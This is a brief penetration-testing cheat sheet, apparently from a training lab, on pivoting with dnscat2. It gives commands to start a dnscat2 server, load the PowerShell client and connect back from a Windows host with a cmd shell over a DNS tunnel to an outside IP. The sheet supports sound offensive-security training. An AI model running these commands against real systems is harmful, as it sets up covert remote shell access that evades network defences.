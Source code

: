 # dnscat

% pivoting

## dnscat2 - Start dnscat2 server
```
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache
```

## dnscat2-powershell - Import dnscat2 module
```
Import-Module dnscat2.ps1
```

## dnscat2 - Connect to dnscat2 server
```
Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd
```

## dnscat2 - List options
```
dnscat2> ?
```

## dnscat2 - Interact with session
```
dnscat2> window -i 1
```

